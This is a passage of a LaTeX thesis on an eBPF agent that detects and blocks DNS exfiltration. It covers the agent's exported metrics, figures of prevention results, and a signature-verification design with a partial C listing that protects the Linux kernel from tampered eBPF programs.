    
\includegraphics[width=0.7\linewidth]{UWThesis/images/kernel_bpftop.png}
    \caption{Kernel eBPF Programs Profiling}
    \label{fig:c3}
\end{figure}


\vspace{-25pt}
\subsection{eBPF Agent exported metrics}
\hyperref[sec:dp_ebpf_node_metrics]{Table 7.1} describes all the metrics exported by each eBPF agent at the endpoint in data plane, with \hyperref[fig:dns-exfil-packet-metrics]{Figure 7.6}, \hyperref[fig:p1]{Figure 7.3}, \hyperref[fig:p2]{Figure 7.4}  detailing some of the enhanced system-level metrics exported by the eBPF agent to Prometheus from the eBPF map and ring buffers to Grafana, a visualization tool to scrape Prometheus metrics.

\begin{longtable}{|p{4cm}|p{10cm}|}
\hline
\textbf{Metric} & \textbf{Description} \\
\hline
\texttt{DNSFeatures} & Metadata of detected DNS exfiltration packets, including extracted features. \\
\hline
\texttt{Tunnel Interface Process Info} & Tracks kernel netlink events for virtual network device creation, linked to the process that created them (UID, GID, PID). \\
\hline
\texttt{DPI\_Redirect\_Count} & Packet redirection count by kernel DPI logic in active mode. \\
\hline
\texttt{DPI\_Clone\_Count} & Count of cloned packets redirected for inspection in passive mode. \\
\hline
\texttt{DPI\_Drop\_Count} & Total packets dropped by kernel DPI logic. \\
\hline
\texttt{MaliciousProcTime} & Start time and duration the malicious process was alive before termination. \\
\hline
\texttt{CPU Usage} & CPU utilization of the eBPF agent in userspace. \\
\hline
\texttt{Memory Usage} & RAM usage in MB or percentage of total memory used by the eBPF agent. \\
\hline
\texttt{DNS Redirect and Processing Time} & In active mode, tracks time from kernel redirection to userspace sniffing, model inference or cache lookup, then resend if benign or block if malicious. \\
\hline
\caption{eBPF agent exported metrics in both active and passive modes}
\label{sec:dp_ebpf_node_metrics}
\end{longtable}

\begin{figure}[htbp]
  \centering
  \begin{subfigure}[b]{0.48\textwidth}
    
\includegraphics[width=\textwidth, height=5cm]{UWThesis/images/results/metrics/exfiltration attempts prevented per process.png}
    \caption{Exfiltration Attempts Prevented per Process}
  \end{subfigure}
  \hfill
  \begin{subfigure}[b]{0.48\textwidth}
    
\includegraphics[width=\textwidth, height=5cm]{UWThesis/images/results/metrics/process alive time prior kill.png}
    \caption{Process Alive Time Before Termination}
  \end{subfigure}
  \caption{DNS Exfiltration Prevention Metrics: Process-Level Behavior}
  \label{fig:p1}
\end{figure}

\begin{figure}[htbp]
  \centering
  \begin{subfigure}[b]{0.48\textwidth}
    
\includegraphics[width=\textwidth]{UWThesis/images/results/metrics/tunnel interface exfil metric.png}
    \caption{Tunnel Interface Exfiltration Metric}
  \end{subfigure}
  \hfill
  \begin{subfigure}[b]{0.48\textwidth}
    
\includegraphics[width=\textwidth]{UWThesis/images/results/metrics/latency in active redirect mode.png}
    \caption{Latency in Active Redirect Mode}
  \end{subfigure}
  \caption{DNS Exfiltration Prevention Metrics: kernel network encapsulation and Latency}
    \label{fig:p2}
\end{figure}

  % Row 3 (detailed image, full width)
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.9\linewidth,height=0.4\textheight,keepaspectratio]{UWThesis/images/results/metrics/dns_exfiltrated_packet_detailed_metrics.png}
    \caption{Metrics of Prevented DNS exfiltrated packets}
    \label{fig:dns-exfil-packet-metrics}
\end{figure}

\vspace{-25pt}
\subsection{Protecting Linux Kernel from malicious eBPF programs}
In the data plane, ensuring security beyond kernel-enforced capability checks, such as those near \texttt{CAP\_SYS\_ADMIN} requires guaranteeing the integrity of injected eBPF programs. This prevents tampering or injection of malicious code within the compiled ELF sections of the eBPF bytecode. Without such integrity guarantees, a compromised eBPF agent could load manipulated programs, bypassing exfiltration prevention logic, and causing a critical security breach.
To mitigate this risk, additional eBPF programs are loaded into the kernel and attached to LSM hooks that intercept BPF syscalls, including  \texttt{BPF\_PROG\_LOAD}. These LSM programs verify digital signatures on the incoming eBPF bytecode, following a process analogous to the verification of loadable modules by the kernel.
Each data plane node’s agent bootstraps a local certificate authority (CA) that generates ephemeral elliptic curve certificates and private keys. The agent signs the raw eBPF bytecode prior to injection, establishing an initial trust layer. After JIT compilation, the optimized bytecode is signed again, along with the original raw bytecode signature, creating a two-stage chain of trust. Certificates and keys are securely stored in the kernel session keyring, tied to the user’s login session on the endpoint.
When the \texttt{BPF\_PROG\_LOAD} syscall occurs, the LSM hook verifies both raw and compiled bytecode signatures against the asymmetric keys in the keyring. These signatures are also maintained within the eBPF maps to support verification logic. This dual-signature approach ensures that neither raw nor compiled bytecode can be tampered with before kernel injection.
Furthermore, the core security layer integrates with a centralized control plane connected to the cloud Public Key Infrastructure (PKI), enabling a scalable layered trust model - from cloud PKI to kernel-level mandatory access control. While the keyring currently stores sensitive keys in kernel-guarded memory pages, the kernel restricts access to unprivileged userspace processes. In addition, these security primitives support integration with Trusted Platform Modules (TPMs) or Hardware Security Modules (HSMs) - commonly available in cloud environments - allowing the keyring and cryptographic keys to be offloaded to hardware-backed firmware (Intel TDX, AMD SEV-SNP), thereby enhancing security guarantees. The core implementation for the kernel resident LSM-integrated eBPF verification program is detailed below.
% This innovative security design to protect the Linux kernel from runtime tampering by integrating the kernel keyring, LSM has gained significant traction and will be presented in front of Linux kernel security maintainers and developers of mandatory access control subsystems in the upcoming kernel security conference.



{\small 
\begin{lstlisting}[language=C, caption={Kernel BPF LSM Hook for PKCS7 Signature Verification}, label={lst:bpf-lsm}]
BPF_PROG(bpf, int cmd, union bpf_attr *attr, unsigned int size) {
    if (cmd != BPF_PROG_LOAD)
        return 0;
    // Look up eBPF program, its original signature, and the modified signature
    mod_sig = bpf_map_lookup_elem(&modified_signature, &zero);
    orig_data = bpf_map_lookup_elem(&original_program, &zero);
    combined_buf = bpf_map_lookup_elem(&combined_data_map, &zero);
    // Copy eBPF program and original signature into a combined buffer
    insn_len = attr->insn_cnt * sizeof(struct bpf_insn);
    bpf_copy_from_user(combined_buf->data, insn_len, attr->insns);
